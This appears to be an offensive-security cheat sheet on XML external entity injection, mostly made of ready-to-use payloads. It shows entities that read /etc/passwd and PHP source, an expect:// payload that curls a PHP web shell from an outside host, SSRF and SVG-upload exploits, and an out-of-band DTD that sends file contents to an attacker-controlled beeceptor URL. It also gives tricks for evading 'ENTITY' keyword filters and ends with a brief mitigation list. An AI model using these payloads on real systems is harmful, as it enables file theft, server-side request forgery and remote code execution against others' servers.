 ```yaml
---
description: https://app.beeceptor.com/
---
```


# XML external entity (XXE) injection

<figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

#### Identifying

1. **Identify XML User Input**: Look for web pages or forms that accept XML input from users. This can include forms that submit data in XML format to the server.
2. **Inspect Input Filtering and Sanitization**: Check if the application applies proper input filtering or sanitization to XML input. Lack of filtering or sanitization increases the risk of XXE vulnerabilities.
3. **Observe Response Handling**: Pay attention to how the application handles user input in the response. If the application reflects XML elements back to the user without encoding, it may be vulnerable to XXE.
4. **Analyze DTD Declaration**: Determine if the XML input includes a Document Type Definition (DTD) declaration. If present, it may allow for entity declaration and expansion, leading to XXE.
5. **Add Custom Entity**: Inject a custom entity into the XML input to test for XXE. This can be done by adding a DTD declaration and defining a new entity within it.
6. **Test Entity Replacement**: Verify if the application replaces the custom entity with its defined value in the response. If the value of the entity is reflected back, it indicates potential XXE vulnerability.
7. **Check Content-Type**: Even if the application primarily uses JSON format, try changing the Content-Type header to application/XML. Some applications may accept XML data even if they primarily handle JSON.
8. **Convert JSON to XML**: If necessary, convert JSON data to XML format using online tools. Submit the XML data to the application and test for XXE vulnerabilities as described above.

## Error Based XXE

### Read File

```xml
<!--Linux -->
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read  SYSTEM "file:///etc/passwd">]>
<check>
    <proid>&read</proid>
</check>
```

<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

## Blind Data Exfiltration

### PHP Filter&#x20;

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read SYSTEM "php://filter/convert.base64-encode/resource=/index.php"> ]>
<Check><proid>&read;</proid></Check>
```
{% endcode %}

## Code Execution

PHP Wrapper <mark style="color:red;">**expect://ls**</mark>

```bash
echo '<?php system($_REQUEST['cmd'])?>' > shell.php
#up server 
python3 -m http.server 80 
```

to execute&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'https://h3ckt00r.free.beeceptor.com/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="warning" %}
The <mark style="color:red;">**expect**</mark> module is not enabled/installed on modern PHP servers by default, so this attack may not always work.
{% endhint %}

## SSRF Attack

```sml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://sub.vulnerable.com/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### CDATA with XXE and SSRF

```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [ <!ENTITY read SYSTEM "https://h3ckt00r.free.beeceptor.com">]>
    <root>
        <data><![CDATA[&read;]]></data>
    </root>

```

## File Upload

{% code overflow="wrap" %}
```xml
<!-- exploit.svg -->

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

### OUT-OF\_BAND (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % read SYSTEM "https://h3ckt00r.free.beeceptor.com/xxe.dtd" > ]>

```

in Server

{% code overflow="wrap" %}
```xml
<!DOCTYPE h3ckt00r [ <!ENTITY % read SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<!ENTITY % test "<!ENTITY &#x25; snedfile SYSTEM 'https://h3ckt00r.free.beeceptor.com/?x=%read;'>">
%test;
%sendfile;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

### Automated OOB Exfiltration

{% code overflow="wrap" %}
```bash
0xN1ghtM4r3@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending a request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
{% endcode %}



## How to Find XEE

**● XML file upload (e.g config files)**&#x20;

**● XML input fields**&#x20;

**● XML based APIs**&#x20;

**● XML based files (RSS, SVG)**

## how to bypass if filters " ENTITY " word

### Case1: **Manipulation (Uppercase/Lowercase)**

```xml
<!eNtItY h3ckt00r SYSTEM "file:///etc/passwd">
```

### Case2: Encoding

* **HTML encoding**:

```xml
<!&#69;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#69; -->
```

* Hexadecimal enconding

```xml
<!&#x45;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#x45; -->
```

* Whitespace Bypasses (Extra Spaces or Newlines) Or using Comment

```xml
<!EN TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR --> 
<!EN
TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR using Comment -->
<!E<!-- Comment -->NTITY xxe SYSTEM "file:///etc/passwd">
```

* CDATA

```xml
<!DOCTYPE root [
  <!ENTITY % data "<![CDATA[ENTITY]]">
  %data;
]>
```



## **Mitigation and** Prevention

* Avoiding Outdated Components
* Using Safe XML Configurations
  * Disable referencing custom <mark style="color:red;">**`Document Type Definitions (DTDs)`**</mark>
  * Disable referencing <mark style="color:red;">**`External XML Entities`**</mark>
  * Disable <mark style="color:red;">**`Parameter Entity`**</mark><mark style="color:red;">** **</mark><mark style="color:red;">**processing =>**</mark>&#x20;
    * ```php
      libxml_disable_entity_loader(true);
      ```
  * Disable support for <mark style="color:red;">**`XInclude`**</mark>
  * Prevent <mark style="color:red;">**`Entity Reference Loops`**</mark>
